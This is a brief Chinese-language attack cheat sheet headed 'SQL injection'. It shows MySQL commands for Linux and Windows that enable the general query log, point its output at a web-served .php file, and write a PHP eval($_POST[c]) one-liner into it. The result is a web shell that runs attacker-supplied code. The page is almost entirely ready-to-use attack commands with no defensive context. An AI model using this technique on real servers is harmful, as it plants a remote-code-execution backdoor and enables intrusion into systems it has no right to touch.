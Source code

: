 # SQL注入

#### 1. 利用 Mysql 查询日志写 shell

* Linux

```
set global general_log = 'ON';
set global general_log_file = '/var/www/html/shell.php'; # 该目录必须拥有写权限
select '?><?php eval($_POST[c]); ?>';
```

* Windows

```
set global general_log = 'ON';
set global general_log_file = 'D:\\Program\\www\\localhost.log.php';
select '?><?php eval($_POST[c]); ?>';
```



